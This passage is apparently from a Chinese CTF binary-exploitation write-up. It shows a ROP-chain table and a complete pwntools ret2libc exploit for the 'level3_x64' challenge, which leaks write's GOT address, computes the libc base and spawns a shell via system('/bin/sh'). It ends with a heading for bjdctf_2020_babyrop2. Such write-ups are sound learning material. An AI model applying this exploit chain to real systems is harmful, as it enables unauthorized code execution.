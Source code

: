 - `64`位`libc`泄露

1. 漏洞函数中存在溢出
2. 使用溢出泄露`libc`
3. 构造`payload`获得`shell`

| rbp  |           |         |                                |                 |
| ---- | --------- | ------- | ------------------------------ | --------------- |
|      | padding   |         |                                | 0x80            |
|      |           |         |                                | 0x8             |
|      | pop_rdi   | ret     | 0x00000000004006b3             |                 |
|      | 0x1       | pop     |                                |                 |
|      | pop_rsi   | ret     | 0x00000000004006b1             |                 |
|      | write_got | pop_rsi | elf.got['write']               | 没找到更好的rop |
|      | 0x0       | pop_r15 |                                |                 |
|      | write_plt | ret     | elf.plt['write']               |                 |
|      |           | ret     | elf.sym['vulnerable_function'] |                 |

> 泄露`libc`payload1构造

```python
from pwn import *
#context.log_level = 'debug'
elf = ELF('level3_x64')
Lib = ELF('/lib/x86_64-linux-gnu/libc.so.6')
io = process('level3_x64')
#io = gdb.debug('./level3_x64','break vulnerable_function')
padding = 0x80
payload1 = b'A'*(padding+0x8)+p64(0x00000000004006b3)+p64(0x1)+p64(0x00000000004006b1)+p64(elf.got['write'])+p64(0x0)+p64(elf.plt['write'])+p64(elf.sym['vulnerable_function'])
io.sendlineafter(b'Input:\n',payload1)
write_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('write_addr->',hex(write_addr))
Liboffset = write_addr - Lib.sym['write']
bin_sh_addr = Liboffset + next(Lib.search(b'/bin/sh'))
sys_addr = Liboffset + Lib.sym['system']
payload2 = b'A'*(padding+0x8)+p64(0x00000000004006b3)+p64(bin_sh_addr)+p64(sys_addr)
io.sendlineafter(b'Input:\n',payload2)
io.interactive()
```

# bjdctf_2020_babyrop2

- 格式化字符漏洞
- `canary`保护机制
- `64`位泄露`libc`

